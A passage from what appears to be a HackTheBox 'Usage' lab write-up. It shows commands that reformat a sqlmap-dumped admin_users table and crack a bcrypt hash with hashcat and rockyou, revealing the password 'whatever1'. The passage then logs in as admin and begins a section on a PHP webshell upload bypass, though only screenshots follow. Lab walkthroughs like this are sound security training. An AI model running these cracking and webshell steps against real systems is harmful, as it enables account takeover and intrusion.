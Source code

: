 ### Crack hashes from admin_users table

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ cat /home/kali/.local/share/sqlmap/output/usage.htb/dump/usage_blog/admin_users.csv | tail -n +2 | sed '/^$/d' | awk -F',' '{print $1":"$2}' > sqlmap_admin_users.hash

┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ hashcat sqlmap_admin_users.hash /opt/wordlists/rockyou.txt --user -m 3200
[...]
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
[...]
```

### 80 - dmin.usage.htb : PHP webshell file upload bypass

> http://admin.usage.htb/

- Logged in with creds : `admin:whatever1`

![](/assets/obsidian/c95a113727628f3d42a113aa4150d16b.png)

![](/assets/obsidian/9a1fff68ab479f6635de47f35b3f4694.png)
